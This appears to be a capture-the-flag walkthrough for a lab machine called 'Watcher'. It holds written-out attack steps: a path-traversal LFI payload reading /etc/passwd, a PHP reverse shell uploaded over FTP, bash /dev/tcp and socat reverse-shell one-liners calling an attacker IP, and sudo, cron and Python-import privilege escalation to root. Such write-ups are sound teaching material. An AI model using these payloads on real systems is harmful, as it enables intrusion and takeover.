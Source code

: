 # Watcher

## NMAP
```
# Nmap 7.91 scan initiated Mon Jul  5 14:43:49 2021 as: nmap -sV -p- -n -Pn -T4 -A -o nmap.txt 10.10.108.143
Warning: 10.10.108.143 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.108.143
Host is up (0.17s latency).
Not shown: 65445 closed ports, 87 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
|_  256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  5 15:02:39 2021 -- 1 IP address (1 host up) scanned in 1129.88 seconds
```

- tried using feroxbuster and dirb, but didn't find anything intresting other than robot.txt.
- while checking the directory inside we found in robots.txt we got a flag. But while cheking second one http://10.10.0.46/secret_file_do_not_read.txt the permission is denied.

## LFI
- we can see the link inputs a file but while modiyfying input we can see passwd file and thus we can confirm it has LFI vulnerability.
http://10.10.31.251/post.php?post=../../../../../etc/passwd
- Now let us check whether we can output secret_file_do_not_read.txt.
- http://10.10.31.251/post.php?post=../../../../../var/www/html/secret_file_do_not_read.txt and we are able to see secret_file_do_not_read.txt file.
- We got FTP user and password.

## FTP

- Login to FTP using ftpuser.
- We got second flag.
- Here there is a folder which we permission to upload.
- Upload a php_reverse_shell.
- We know path to uploaded shell from http://10.10.31.251/post.php?post=secret_file_do_not_read.txt file.
- Start nc listner and invoke the shell.
- http://10.10.31.251/post.php?post=../../../../../home/ftpuser/ftp/files/shell.php
- Now we have a shell.

## Reverse shell www-data
- upgrade shell:
```
/usr/bin/script -qc /bin/bash /dev/null
control+z to background
stty raw -echo
fg
export TERM=xterm
```
- or can upgrade with socat.
on kali: `socat file:`tty`,raw,echo=0 tcp-listen:4444`
on victim: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444`
if there is no socat installed i=on victim we can use standalone binary from https://github.com/andrew-d/static-binaries or using command `wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat;` and uploading to the victim.
- now we got next flag.
- after seeing `sudo -l` we can see ww-data can run anything as toby. Lets run a bash shell.
- `sudo -u toby /bib/bash`
- now are toby.

## shell toby
- Now we have flag 4.
- There is cron job running every minute by mat and we have write permisson. `cat /etc/crontab`
- Lets put `bash -i >& /dev/tcp/10.8.98.192/4444 0>&1` and open nc listner and wait for connction.
- We got the connection.

## shell mat
- Now we have flag 5.
- Stabilize the shell.
- run `sudo -l`
- we can run a script will_script.py as will. lets check it out.
```
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)

```
- The script invoke a cmd.py which mat have owner permission. Lets edit cmd.py
```
def get_command(num):                                                                         
        if(num == "1"):                                                                       
                return "bash"                                                                 
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```
- Now run `sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1` and we have escalated shell to will.

## shell will
- Now we have flag 6.
- Lets find something to escalate privilege to root.
- After running linpeas found /opt/backup folder. Lets check it out.
- We have key.64 inside the folder. Lets download it to local machine.
- it appears to be base64 encoded. decode it.
- It is a ssh key.
- `chmod 600 key`

## ssh root
- `ssh -i key root@IP`
- Now we are logged in as root.
- We have flag 7.

***
